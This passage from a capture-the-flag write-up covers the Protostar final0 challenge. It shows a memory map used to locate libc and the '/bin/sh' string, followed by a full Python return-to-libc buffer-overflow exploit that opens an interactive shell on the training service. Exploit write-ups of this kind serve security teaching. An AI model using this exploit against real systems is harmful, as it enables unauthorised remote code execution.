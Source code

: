 Find the base address of **libc**:

```shell
root@protostar:/home/user# pidof final0
1403
root@protostar:/home/user# cat /proc/1403/maps
08048000-0804a000 r-xp 00000000 00:10 2214       /opt/protostar/bin/final0
0804a000-0804b000 rwxp 00001000 00:10 2214       /opt/protostar/bin/final0
b7e96000-b7e97000 rwxp 00000000 00:00 0
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
b7fd9000-b7fdc000 rwxp 00000000 00:00 0
b7fe0000-b7fe2000 rwxp 00000000 00:00 0
b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
```

Now the address of **"/bin/sh"** will be:

$$
0xb7e97000 + 0x11f3bf = 0xb7fb63bf
$$

### Exploit

```python
import struct, socket, telnetlib

HOST = '127.0.0.1'
PORT = 2995
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

padding = "a" * 511 + "\x00" + "aaaabbbbccccddddeeee"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 0xb7fb63bf)
fake_return_address = "AAAA"

exploit = padding + execve + fake_return_address + binsh + "\x00" * 8

# add new line to handle gets()
s.send(exploit + "\n")

# user telnetlib for Client-Server Communication
t = telnetlib.Telnet()
t.sock = s
t.interact()
```
